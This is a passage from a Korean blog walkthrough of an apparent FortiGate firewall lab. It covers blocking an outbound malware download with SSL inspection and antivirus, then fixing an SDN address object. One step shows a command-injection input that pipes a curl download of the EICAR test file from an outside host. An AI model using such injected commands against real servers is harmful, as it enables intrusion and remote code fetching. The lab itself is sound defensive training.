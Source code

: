     ![](/files/blog/2020-12-11/작업2/2020-12-04_0-24-47.png)

    위 Attack ID를 Answer에 제출합니다.

1. 작업 3 : 멀웨어 다운로드 차단  

    ![](/files/blog/2020-12-11/작업3/2020-12-04_0-00-20.png)
    
    이번에는 악성코드를 아웃바운드로 다운로드 받는 것을 차단하라고 하네요.
    
    ![](/files/blog/2020-12-11/작업3/2020-12-04_14-08-10.png)
    
    아래와 '시작하기'에서 알려준 공격 구문을 Injection하면 eicar 테스트 파일이 다운로드 됩니다.  
    * EICAR 테스트 파일은 Anti-Virus SW를 테스트하기 위해 제작된 파일 악성파일은 아니지만 기본적으로 백신 프로그램에서 악성으로 판단합니다.

        ```bash
        4.4.2.2 | curl -k https://secure.eicar.org/eicarcom2.zip
        ```
    
    PK로 시작하는 파일 내용이 보이는 것으로 zip파일이라는 것을 알 수 있습니다.  
    (zip파일은 매직넘버가 ASCII로는 PK입니다.)

    ![](/files/blog/2020-12-11/작업3/2020-12-04_14-09-35.png)

    그럼 차단을 수행해봅시다.
    서버에서는 Outbound로 다운로드를 받는 것이니 Policy를 Outbound 정책으로 생성합니다.
    (보니 원래 있던 걸 수정해도 되더군요.)
    기존 정책에서 차단이 안되었던 이유가 아웃바운드 트래픽이 https Connection이어서 그랬던 것이었네요.  
    FortiGate에서 Policy & Objects > IPv4 Policy로 들어갑니다.
    아래와 같이 Security Policy애서 SSL Inspection을 ssl-mitm-https로 설정해서 Antivirus랑 같이 켜서 Policy를 수정 또는 생성합니다.

    ![](/files/blog/2020-12-11/작업3/2020-12-04_14-28-29.png)

    ![](/files/blog/2020-12-11/작업3/2020-12-04_14-38-19.png)

    다시 이전의 Exploit을 수행해봅니다.

    ![](/files/blog/2020-12-11/작업3/2020-12-04_14-29-37.png)

    Log & Report의 AntiVirus에서 악성 파일이 잡히는 것을 확인할 수 있습니다.
    
    ![](/files/blog/2020-12-11/작업3/2020-12-04_14-38-58.png)

    해당 로그를 클릭하여 상세 정보를 확인해 VirusID를 확보하면 작업이 완료됩니다.

1. 작업 4 : 확인되지 않은 동적 주소 객체 수정  

    ![](/files/blog/2020-12-11/작업4/2020-12-04_0-00-37.png)
    
    이번에는 뭔가 주소를 수정하라는 것 같군요.
    일단 DevOps 팀에서 새 방화벽으로 통신이 안된다고하고 SDN 주소 개체를 수정하라고 하니 FortiGate에서 뭐가 안되는지 한번 봅시다.

    ![](/files/blog/2020-12-11/작업4/2020-12-04_14-44-11.png)

    Addesses를 가보니 jumpbox1에 뭔가 좋지않은 느낌표가 붙어있네요.
    마우스 커서를 위에 놓으면 해당 SDN주소와 연결된 IP가 표시됩니다. 이를 이용해서 IP를 확인해보겠습니다.
